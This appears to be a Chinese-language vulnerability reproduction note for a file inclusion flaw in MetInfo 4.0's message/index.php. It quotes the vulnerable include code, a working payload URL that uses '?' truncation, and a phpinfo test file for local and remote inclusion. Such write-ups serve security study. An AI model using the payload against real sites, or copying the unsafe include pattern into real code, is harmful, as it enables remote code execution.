

漏洞发生在/message/index.php


```php
if (!$metid) $metid = 'index';
if ($metid != 'index') {
    require_once $metid . '.php';
} else {
    ...
}
```

这段代码的意思是，如果$metid未设置的话，那么$metid的值默认为index，如果设置了$metid的值的话，那么包含$metid.php文件；$metid通过get传参获得


### 漏洞复现

文件包含payload，**需要用"?"来把后面拼接的"".php"截断**

```php
http://127.0.0.1/MetInfo4.0/message/index.php?metid=http://127.0.0.1/1.txt?
```


#### 本地文件包含

在服务器根目录下创建一个1.txt文件

```php
<?php phpinfo();?>
```


成功利用


#### 远程文件包含

注意：需要打开php的allow_url_include的参数


远程服务器上创建一个1.txt文件



成功利用

